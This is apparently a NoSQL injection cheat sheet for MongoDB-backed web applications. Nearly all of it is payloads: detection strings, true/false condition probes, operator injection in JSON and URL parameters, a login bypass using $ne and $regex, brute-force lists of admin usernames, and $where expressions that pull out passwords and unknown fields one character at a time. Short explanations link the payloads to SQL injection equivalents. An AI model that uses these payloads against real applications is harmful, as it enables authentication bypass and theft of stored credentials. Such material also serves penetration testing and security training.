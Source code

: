 # Basic operator difference between SQLi && NoSQLi
  1. ```or``` >> ```||```
  2. ```and``` >> ```&&```
  3. ```-- -``` >> ```%00``` 
# Detecting NoSQLi Vulnerability
```
'
\'
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
```
# Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'%00
```
You can also remove the ```x``` end of the payload.
## Example with explanation:

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.

# NoSQL operator injection
```
$where - Matches documents that satisfy a JavaScript expression.
$ne - Matches all values that are not equal to a specified value.
$in - Matches all of the values specified in an array.
$regex - Selects documents where values match a specified regular expression.
```
## Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, ```{"username":"wiener"}``` becomes ```{"username":{"$ne":"invalid"}}```.

For URL-based inputs, you can insert query operators via URL parameters. For example, username=wiener becomes ```username[$ne]=invalid```. 
# MongoDB Login Bypass
```
{"$regex":"wien.*"} >> For username
{"$ne":"Invalid"} >> For password
{"$in":["admin","administrator","superadmin"]} >> For bruteforce
```
If this doesn't work, you can try the following:

    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.
# MongoDB Data Retrieving
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
```
#Operator Injection To Retrieving Unknown Data

{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0
